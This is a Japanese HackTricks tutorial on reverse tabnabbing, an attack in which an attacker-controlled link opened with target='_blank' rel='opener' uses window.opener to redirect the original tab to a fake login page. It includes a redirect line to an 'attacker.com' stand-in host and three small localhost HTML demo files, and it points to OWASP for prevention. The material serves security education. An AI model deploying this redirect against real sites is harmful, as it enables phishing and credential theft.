 <details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい場合**は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
- **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有してください。

</details>


# 説明

**攻撃者**が**`target="_blank" rel="opener"`**属性を持つ**`<a`**タグの**`href`**引数を**制御**できる状況で、被害者がクリックするリンクを**攻撃者**が自身のコントロール下にあるWeb（**悪意のある** **ウェブサイト**）に**指定**すると、被害者がリンクをクリックして攻撃者のウェブサイトにアクセスすると、この**悪意のある** **ウェブサイト**はjavascriptオブジェクト**`window.opener`**を介して**元のページ**を**制御**できるようになります。\
ページに**`rel="opener"`**がないが`target="_blank"`を含み**`rel="noopener"`**がない場合、脆弱性がある可能性があります。

この動作を悪用する一般的な方法は、`window.opener.location = https://attacker.com/victim.html`を介して**元のウェブ**の場所を変更し、**元のウェブ**の**ログイン** **フォーム**を**模倣**してユーザーに資格情報を要求できるようにすることです。

ただし、**攻撃者が今や元のウェブサイトのウィンドウオブジェクトを制御できる**ようになったため、他の方法で**ステルス攻撃**を実行するために悪用することができます（おそらくjavascriptイベントを変更して情報を彼が制御するサーバーに外部流出させるなど）。

# 概要

## バックリンクを使用した場合

予防属性が使用されていない場合の親ページと子ページ間のリンク：

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## バックリンクを使用しない場合

予防属性が使用されている場合の親ページと子ページ間のリンク：

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## 例 <a href="#examples" id="examples"></a>

フォルダ内に以下のページを作成し、`python3 -m http.server`でWebサーバーを実行します\
その後、`http://127.0.0.1:8000/`vulnerable.htmlに**アクセス**し、リンクを**クリック**して**元のウェブサイト**の**URL**が**変更**される様子を確認してください。

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## アクセス可能なプロパティ <a href="#accessible-properties" id="accessible-properties"></a>

異なるドメイン間でアクセスが発生するシナリオでは、悪意のあるサイトによってアクセスされる**opener** JavaScriptオブジェクト参照によって参照される**window** JavaScriptクラスインスタンスのプロパティは、以下に制限されます：

- **`opener.closed`**: このプロパティは、ウィンドウが閉じられたかどうかを判断するためにアクセスされ、ブール値を返します。
- **`opener.frames`**: このプロパティは、現在のウィンドウ内のすべてのiframe要素にアクセスを提供します。
- **`opener.length`**: 現在のウィンドウに存在するiframe要素の数がこのプロパティによって返されます。
- **`opener.opener`**: 現在のウィンドウを開いたウィンドウへの参照をこのプロパティを通じて取得できます。
- **`opener.parent`**: このプロパティは、現在のウィンドウの親ウィンドウを返します。
- **`opener.self`**: このプロパティによって現在のウィンドウ自体にアクセスできます。
- **`opener.top`**: このプロパティは、最上位のブラウザウィンドウを返します。

ただし、ドメインが同一の場合、悪意のあるサイトは[**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScriptオブジェクト参照によって公開されるすべてのプロパティにアクセスできます。

# 予防方法

予防情報は[HTML5チートシート](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing)に文書化されています。

## 参考文献

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)
